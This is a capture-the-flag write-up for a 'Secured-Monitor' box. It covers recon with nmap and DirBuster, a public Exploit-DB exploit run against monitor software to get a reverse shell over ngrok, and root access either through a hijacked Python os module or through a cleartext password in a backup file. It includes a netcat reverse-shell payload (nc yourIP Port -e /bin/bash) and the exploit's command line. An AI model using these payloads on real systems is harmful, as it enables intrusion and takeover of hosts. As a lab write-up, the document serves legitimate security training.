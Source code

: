 # Welcome to Secured-Monitor Solution

After pasting the 3 flags you had got the IP of the box i.e. `100.27.12.78`

# Recon

Lets get started with nmap as always and we get port 80 open thats great!

![Port Scan](https://i.ibb.co/6RvyYyD/portscan.jpg)

Now lets go to `http://100.27.12.78/` we see a default ubuntu page!

![Default Ubuntu Page](https://i.ibb.co/DLbXPPq/default-ubuntu.jpg)

We have a /robots.txt but thats useless.

Dirbuster it 

![Dirburst](https://i.ibb.co/5spR4MY/dirblast.jpg)

and we get a juicy file at `http://100.27.12.78/monitor/`

![Monitor Page](https://i.ibb.co/jMbv3JP/monitor1.jpg)

At the end we see there is a version `1.7.6m` and a login page!

The version that made me trigger that its not custom made lets google about it!

We find something interesting!

![ExploitDB](https://i.ibb.co/rb7HnWP/exploitdb.jpg)

lets run it :3 with netcat and ngrok (incase if you dont have)

# Exploitation

Run the python exploit which we have got from `https://www.exploit-db.com/exploits/48980`

##Command to run

`python expl.py http://100.27.12.78/monitor/ 2.tcp.ngrok.io 10090`

In the netcat we get a reverse shell :3

![Rev SHell](https://i.ibb.co/mzJVYnv/reverse-shell.jpg)

On crawling around the server we find that the `root.txt` but we cannot read it as we are `www-data`


# Privelege Escalation

So I have 2 different ways of privelege escalation

i> Intended Way
ii> Unintended Way

## Intended Way

There is a file called `todo.txt`

On opening we see

```
www-data@ip-172-31-57-243:/home$ cat todo.txt
Always read books from library especially OS books!
You can also try the most simplest encryption method!
```

Interesting!

We also see a program called `devs_note.py`

![devs_note](https://i.ibb.co/q7kd1QY/devsnote.jpg)

From `todo.txt` we see read about OS which is a python module imported in program!

If we run `linenum.sh` we see that the module `os.py` and `base64.py` have root priveleges and also that `devs_note.py` is running in a process. So if we call os.system() we can get root priv.

Create a new file called `somename.py` with content

```
import os

os.system("nc yourIP Port -e /bin/bash")

````

Run it we get root shell and read the `root.txt` 

![root_flag](https://i.ibb.co/ZYSHQZ0/root.jpg)

## UnIntended Way

If you have ever thought of bypassing the login somehow at `http://100.27.12.78/monitor/settings.php` Then you might have thought that there was a database!
 
Even at the login page there were the location of the database given

![database_location](https://i.ibb.co/Gk3ZzvD/database-location.jpg)

As we had the user `www-data` we can go and read the file `users.db`

![userdb](https://i.ibb.co/Wg109HC/userdb.jpg)

If we decrypt the hash we get result as `darkhaxor` but its not the password but there is also a `user_bckup.db.txt`

where we have the root password in clear text

![rootPass](https://i.ibb.co/n0Cnxgr/root-pass.jpg)

Root owned!

### Flag ~

`sudoflaws{M0ni7oring_m3_huhhh!_Good_k33p_i7_up}`


If you really like my box! Drop a review at `aakashadhikari786@gmail.com`












